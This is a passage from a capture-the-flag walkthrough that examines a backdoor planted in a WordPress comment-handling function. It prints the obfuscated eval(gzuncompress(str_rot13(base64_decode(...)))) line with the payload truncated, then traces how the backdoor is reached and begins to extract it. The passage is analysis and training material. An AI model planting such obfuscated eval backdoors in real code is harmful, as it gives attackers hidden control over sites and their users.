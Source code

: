 ```
        $comment_author_email = trim( $comment_data['email'] );
    }
    if ( isset( $comment_data['url'] ) && is_string( $comment_data['url'] ) ) {
        $comment_author_url = trim( $comment_data['url'] );
    }
    if ( isset( $comment_data['comment'] ) && is_string( $comment_data['comment'] ) ) {
        $comment_content = trim( $comment_data['comment'] );
    }
    if ( isset( $comment_data['comment_parent'] ) ) {
        $comment_parent = absint( $comment_data['comment_parent'] );
    }

    // aded to validte  my ownemail against my  internal scrit
    // ba4fb13188ee48077524f9ac23c230250c5661aec9776389e8befbce277c72de - ignore
    eval(gzuncompress(str_rot13(base64_decode('a5wUmlLSs+wWUodmvyoauDVkCx608xfu7oz+...[snip]...

```

After a series of collecting the various fields and saving them in variables, there’s this `eval` call. It’s very suspect to have something passed through a few layers of encoding, then decompressed, and passed to `eval`. At this point, it’s not clear what the 64 characters string in the comment starting with “ba4f” is, but it looks like a SHA256 hash. The typos / poor english in the comments are also a potential indicator of maliciousness (though also could just be sloppy on toby’s part).

#### Backdoor Context

This suspect code is in the `wp_handle_comment_submission` function. That function is called from a `wp-comments-post.php`, which is where my POST to submit a comment went earlier:

```

oxdf@hacky$ grep -r wp_handle_comment_submission backup/
backup/wordpress.toby.htb/html/wp-comments-post.php:$comment = wp_handle_comment_submission( wp_unslash( $_POST ) );
backup/wordpress.toby.htb/html/wp-includes/comment.php:function wp_handle_comment_submission( $comment_data ) {
backup/wordpress.toby.htb/html/wp-includes/rest-api/endpoints/class-wp-rest-comments-controller.php:             * comment_content. See wp_handle_comment_submission().

```

In that file, it passes the full `$_POST` object (the request) into `wp_handle_comment_submission`.

### Decode

#### Manual

I’ll use `grep` and `cut` to get the base64-encoded blob into a file:

```

oxdf@hacky$ cat wp-includes/comment.php | grep 'eval(gzuncompres' | cut -d "'" -f2 > backdoor.b64

```
